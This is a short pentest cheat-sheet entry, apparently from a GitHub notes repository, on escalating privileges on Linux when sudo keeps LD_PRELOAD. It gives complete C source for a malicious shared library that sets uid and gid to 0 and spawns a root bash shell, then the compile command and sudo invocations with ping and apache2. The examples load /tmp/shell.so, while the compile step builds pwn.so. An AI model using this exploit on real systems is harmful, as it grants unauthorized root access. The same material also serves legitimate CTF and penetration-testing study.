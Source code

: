 # LD_PRELOAD

when running `sudo -l` we see the following included in the output:

```
env_keep+=LD_PRELOAD
```

With this included, we can privesc with any sudo command via the following

**pwn.c**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

We compile it on the target

```bash
gcc -fPIC -shared -o pwn.so pwn.c -nostartfiles
```

Examples:

```bash
# ping
sudo LD_PRELOAD=/tmp/shell.so ping

# apache2
sudo LD_PRELOAD=/tmp/shell.so apache2 restart
```
